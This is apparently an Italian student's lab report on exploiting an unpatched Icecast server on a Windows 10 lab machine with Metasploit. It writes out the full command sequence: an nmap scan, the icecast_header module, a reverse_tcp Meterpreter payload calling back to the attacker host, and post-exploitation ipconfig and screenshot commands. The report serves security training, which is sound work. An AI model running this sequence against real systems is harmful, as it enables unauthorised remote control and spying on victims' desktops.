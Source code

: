 # Consegna S7/L4: Utilizzo di Metasploit per sfruttare Icecast su Windows 10

## 📝 **Introduzione**
Questa relazione documenta l'uso di Metasploit per ottenere una sessione **Meterpreter** su un sistema Windows 10 vulnerabile con Icecast in esecuzione. L'obiettivo era sfruttare una vulnerabilità nota di Icecast per:

- 📍 Identificare l'indirizzo IP della vittima.
- 🖼️ Acquisire uno screenshot del desktop della vittima.

## 🛠️ **Setup dell'ambiente**

- **Macchina attaccante:** Kali Linux  
  - **IP:** `192.168.50.165`
- **Macchina vittima:** Windows 10 con Icecast in esecuzione  
  - **IP:** `192.168.50.6`
- **Strumenti utilizzati:** Metasploit Framework

## 🔍 **Analisi e Preparazione**
Prima di iniziare l'attacco, ho verificato che il servizio Icecast fosse attivo sulla macchina Windows:

1. Ho avviato Icecast sulla macchina Windows, confermando che fosse in ascolto sulla porta predefinita `8000`.
2. Con un rapido **Nmap**, ho controllato che la porta fosse effettivamente aperta:
   ```bash
   nmap -p 8000 192.168.50.6
   ```
   - Risultato: la porta era aperta e il servizio Icecast attivo.

## ⚙️ **Esecuzione dell'attacco**

1. **Avvio di Metasploit**
   Ho avviato il framework Metasploit sulla macchina Kali con il comando:
   ```bash
   msfconsole
   ```

2. **Caricamento dell'exploit**
   Ho scelto l'exploit `icecast_header` specifico per Icecast:
   ```bash
   use exploit/windows/http/icecast_header
   ```

3. **Configurazione dei parametri**
   Ho configurato le seguenti opzioni per l'attacco:
   ```bash
   set RHOSTS 192.168.50.6
   set RPORT 8000
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.50.165
   set LPORT 4444
   ```

4. **Lancio dell'exploit**
   Dopo aver verificato le configurazioni con `show options`, ho eseguito l'exploit:
   ```bash
   exploit
   ```
   - **Risultato:** Sessione Meterpreter aperta con successo!

## 🎯 **Obiettivi raggiunti**

1. **Identificazione dell'indirizzo IP**
   Ho utilizzato il comando `ipconfig` nella sessione Meterpreter per visualizzare l'indirizzo IP della vittima:
   ```bash
   ipconfig
   ```
   - **Output:** Mostrava l'indirizzo IP della vittima `192.168.50.6`.

2. **Acquisizione dello screenshot**
   Per ottenere un'immagine del desktop della vittima, ho eseguito:
   ```bash
   screenshot
   ```
   - **Risultato:** Lo screenshot è stato salvato con successo sulla macchina attaccante.

   ![Screenshot Desktop](./MeterpreterWin10.png)

## 🚀 **Conclusioni**

La combinazione di analisi, configurazione accurata e utilizzo degli strumenti giusti ha reso possibile il successo dell'attacco. 
Questo esercizio dimostra quanto sia cruciale mantenere aggiornati i sistemi per prevenire vulnerabilità note. Come aspirante Ethical Hacker, continuo a rafforzare le mie competenze per identificare e mitigare tali rischi.
Questo esercizio mi ha permesso di comprendere meglio:

- 🕵️‍♂️ L'importanza della ricognizione e della preparazione prima di eseguire un exploit.
- 🔒 Le implicazioni di sicurezza di servizi non aggiornati come Icecast.
- 🛡️ La necessità di un approccio etico nell'uso di strumenti potenti come Metasploit.


---
**Autore:** Sebastiano  
**Data:** 19 dicembre 2024
